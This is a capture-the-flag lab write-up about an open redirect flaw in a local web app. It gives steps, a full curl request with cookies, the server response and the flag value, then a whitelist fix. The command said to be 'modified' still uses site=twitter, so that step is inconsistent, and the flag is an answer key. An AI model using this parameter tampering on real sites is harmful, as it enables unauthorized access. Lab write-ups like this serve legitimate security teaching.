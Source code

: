 # Breach Name: Open Redirect Vulnerability on Redirect Links
## Description of the Breach

This breach was identified by analyzing the redirect functionality available on the website. By manipulating the URL parameter in the redirection request, we were able to bypass the intended redirection and retrieve a hidden flag.

## Steps to Reproduce

1. Identify Redirect Buttons:
	- On the homepage, there are buttons that redirect to external websites (e.g., Twitter, Facebook).
	- Inspect these buttons and observe the network activity when clicking them to understand the redirection mechanism.

2. Capture the Redirect Request:
	- Use your browser's developer tools to open the "Network" tab.
	- Click on one of the redirect buttons and capture the HTTP request that is made. This request will look something like this:
	  ```bash
	  http://localhost:8080/index.php?page=redirect&site=twitter
	  ```

3. Copy the Request as cURL:
	- Right-click on the network request and select "Copy as cURL". This provides a cURL command that you can modify for further exploitation.

4. Manipulate the Redirection Site:
	- In the copied cURL command, modify the site parameter to see if you can trigger different behaviors or access hidden content:
	  ```bash
	  curl 'http://localhost:8080/index.php?page=redirect&site=twitter' \
	  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8' \
	  -H 'Accept-Language: en-US,en' \
	  -H 'Connection: keep-alive' \
	  -H 'Cookie: csrftoken=6la8Whx71kgYwiu1HUqby8bGHiSkJf2j9rlT80LuniGLvkJzAtbJNOx4EK5rXVKe; sessionid=wkyan96hdzkvna3h6vfkck2lbsci7d30; I_am_admin=' \
	  -H 'Referer: http://localhost:8080/' \
	  -H 'Sec-Fetch-Dest: document' \
	  -H 'Sec-Fetch-Mode: navigate' \
	  -H 'Sec-Fetch-Site: same-origin' \
	  -H 'Sec-Fetch-User: ?1' \
	  -H 'Sec-GPC: 1' \
	  -H 'Upgrade-Insecure-Requests: 1' \
	  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
	  -H 'sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Brave";v="126"' \
	  -H 'sec-ch-ua-mobile: ?0' \
	  -H 'sec-ch-ua-platform: "Linux"'
	  ```
	  Explanation: This command requests the redirection to the site specified in the site parameter.

5. Execute the Modified cURL Command:
	- Run the modified cURL command in your terminal. The server processes the request and returns a response containing the flag:
	  ```html
	  <h2 style="margin-top:50px;">Good Job Here is the flag : b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3</h2>
	  ```

6. Retrieve the Flag:
	- The flag is displayed in the server's response:
	  ```
	  b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3
	  ```

## Explanation of the Breach

The vulnerability here is an Open Redirect flaw, where the application allows unvalidated input to control the redirection destination. By manipulating the site parameter in the redirect URL, we were able to access hidden content on the server, including the flag.

## How to Fix the Breach

- Use a Whitelist for Redirection:
	Maintain a whitelist of allowed redirect destinations. The application should only redirect to URLs explicitly included in this list.